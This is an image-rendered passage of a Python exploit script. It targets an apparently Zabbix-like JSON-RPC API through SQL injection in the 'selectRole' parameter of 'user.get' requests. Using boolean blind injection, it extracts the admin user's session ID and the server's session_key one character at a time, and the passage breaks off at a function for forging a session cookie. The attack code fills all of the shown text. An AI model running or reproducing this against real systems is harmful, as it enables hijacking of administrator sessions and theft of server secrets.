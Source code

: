 ```python

            response = requests.post(url, json=payload, headers=headers)
            result = response.json()

            try:
                key = f"r.readonly AND IF(SUBSTRING((SELECT sessionid FROM sessions where userid=1 LIMIT 1),{i},1)='{char}',1,0)"
                if result["result"][0]["role"].get(key) == "1":
                    session_id += char
                    print(f"[*] Found character: {char}")
                    found_char = True
                    break
            except KeyError:
                pass

        if not found_char:
            break

    print(f"[*] Extracted sessionid: {session_id}")
    return session_id

def extract_session_key():
    session_key = ""
    print("[*] Extracting session_key from config table...")

    for i in range(1, 50):  
        found_char = False
        for char in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789":
            payload = {
                "jsonrpc": "2.0",
                "method": "user.get",
                "params": {
                    "selectRole": [
                        f"readonly AND IF(SUBSTRING((SELECT session_key FROM config LIMIT 1),{i},1)='{char}',1,0)"
                    ],
                    "userids": ["1"]
                },
                "id": 1,
                "auth": auth_token
            }

            response = requests.post(url, json=payload, headers=headers)
            result = response.json()

            try:
                key = f"r.readonly AND IF(SUBSTRING((SELECT session_key FROM config LIMIT 1),{i},1)='{char}',1,0)"
                if result["result"][0]["role"].get(key) == "1":
                    session_key += char
                    print(f"[*] Found character: {char}")
                    found_char = True
                    break
            except KeyError:
                pass

        if not found_char:
            break

    print(f"[*] Extracted session_key: {session_key}")
    return session_key

def generate_session_cookie(session_id, session_key):
```